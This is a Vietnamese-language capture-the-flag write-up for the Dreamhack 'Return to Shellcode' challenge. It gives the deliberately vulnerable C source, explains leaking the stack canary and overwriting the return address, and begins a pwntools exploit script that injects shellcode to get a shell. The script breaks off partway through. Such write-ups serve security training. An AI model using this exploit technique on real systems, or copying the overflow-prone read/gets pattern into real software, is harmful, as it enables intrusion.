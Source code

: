 # [Return to Shellcode](https://dreamhack.io/wargame/challenges/352)
```c 
#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```
- Nhận thấy lỗi `buffer overflow` ở hàm `read` và `gets` của biến `buf` 
- Đề cho biết địa chỉ của biến `buf` nên thuận tiện để ta đưa shellcode vào biến `buf` và ghi đè địa chỉ trả về thành địa chỉ của biến `buf` để thực thi shellcode và chiếm shell
- Nhưng Canary được bật nên không thể ghi đè nếu làm thay đổi giá trị canary
- Đề cũng gợi ý là leak canary 
- canary nằm sau biến `buf` và trước rbp
![image](https://hackmd.io/_uploads/Sy2KjqHwC.png)
- Để leak được canary cần ghi 89 byte và may mắn khi byte cuối của canary là null nên khi leak sẽ lấy 7 byte sau và không làm thay đổi giá trị canary
### Script
```python=
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'

#p = process('./r2s')
p = remote('host3.dreamhack.games', 19838)
p.recvuntil(b'Address of the buf: ')

buf = int(p.recvline(), 16)
log.info(hex(buf))

shell = asm('''
	mov rdi, 29400045130965551
```